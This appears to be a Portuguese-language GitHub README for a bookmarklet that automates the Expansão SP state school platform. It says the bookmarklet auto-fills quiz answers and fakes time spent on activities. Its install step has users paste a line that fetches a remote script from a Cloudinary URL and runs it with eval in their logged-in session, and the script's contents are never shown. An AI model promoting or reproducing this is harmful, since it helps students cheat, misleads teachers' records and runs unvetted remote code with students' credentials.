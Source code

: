 # 🌙 Expansão Noturna v2 - MoonScripts Beta

> 🧪 Projeto em **desenvolvimento beta**  
> ✨ Feito com carinho por **@biscurim**  

---

## 📌 Sobre o projeto

**Expansão Noturna v2** é um script avançado que automatiza tarefas da plataforma [Expansão SP](https://expansao.educacao.sp.gov.br/), criado para facilitar o dia a dia de estudantes e professores.  
Funciona diretamente pelo navegador via **bookmarklet**, sem necessidade de extensões ou instalações.

### ⚙️ Funcionalidades

- ✅ Preenchimento automático de respostas e quizzes
- ⏱️ Simulação de tempo real de atividade
- 📊 Barra de progresso com feedback visual
- 🧠 Execução automática com lógica otimizada
- 🌓 Interface discreta e adaptada para uso noturno

---

## 🪄 Como usar

1. **Copie** o código abaixo (bookmarklet):
    ```js
    javascript:fetch("https://res.cloudinary.com/dcov4pazn/raw/upload/v1750620197/exp_uihbci.js").then(t=>t.text()).then(eval);
    ```
2. Abra o navegador (Chrome, Edge ou Firefox).
3. Crie um novo **favorito** e cole esse código no campo de **URL**.
4. Uma sugestão, copie o nome abaixo e cole no bookmarklet.
 ```
 🌓 Expansão Noturna v2.

 ```
5. Acesse o site: [https://expansao.educacao.sp.gov.br](https://expansao.educacao.sp.gov.br).
6. Clique no seu curso após isso execute o bookmarklet salvo e aguarde a mágica acontecer! ✨

---

## 💡 Recomendações

- Use em **sessões ativas** do aluno logado.
- Evite múltiplas execuções simultâneas.
- Para evitar erros, aguarde o carregamento completo da página antes de ativar.

---

## 🛑 Aviso Legal

Este projeto é para fins educacionais.  
Não nos responsabilizamos pelo uso indevido ou violação das políticas da plataforma oficial.

---

## 🙌 Créditos

- 👤 Criado por: [@biscurim](https://github.com/biscurim)
- 📌 Distribuído por: [MoonScripts](https://discord.gg/tYZvGHd4YF)
- 💬 Sugestões e melhorias? Abra um ticket no nosso Discord!

---

## 🧪 Status do projeto

> 🔨 Em desenvolvimento  
> 🧼 Última limpeza de código: Junho/2025  

---

